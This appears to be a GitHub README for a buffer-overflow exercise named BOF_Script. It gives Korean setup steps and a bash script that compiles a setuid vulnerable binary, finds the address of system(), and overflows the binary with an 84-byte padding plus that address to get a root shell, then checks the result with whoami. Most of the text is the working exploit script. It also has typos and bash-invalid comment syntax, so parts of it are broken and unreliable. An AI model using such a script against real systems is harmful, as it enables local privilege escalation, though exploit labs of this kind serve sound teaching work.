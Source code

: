 # BOF_Script
this refo contains unsafe code
# Explanation
[사전작업]
1. 작업을 수행할 계정으로 접속합니다.
2. /home/계정 폴더로 이동합니다.
3. 깃허브에 있는 파일들을 옮깁니다.
4. 스크립트를 실행합니다.
[스크립트]
#!/bin/bash
gcc -o vuln vuln.c //vuln.c 컴파일

chmod +s vunl //권한 부여

gcc -o ./getaddr getaddr.c -lc -ldl //getaddr.c 컴파일

/bin/bash2 //bash2 실행

export PATH=$PATH:. //현재 위치 path에 추가

sysaddr=$(./getaddr) //주소 구한 뒤 저장

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" 2> arg //주소 변환하고 vuln에 인자로 넣어서 실행한 뒤 출력값 저장

xxd arg | awk '{for(i=2; i<=NF; i++) {if ($i == "3a20") {print $(i-1); print $i; print $(i+1); print $(i+2); print $(i+3); print $(i+4); print $(i+5); print $(i+6);}}' | perl -pe 's/(..)(..)(..)(..)/\\x$4\\x$3\\x$2\\x$1/g'
//arg에서 원하는 부분 추출해 /bin/bash를 가리키는 심볼릭 링크 생성에 사용

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" //system함주 주소 대입해 vuln 실행

whoami //결과 확인
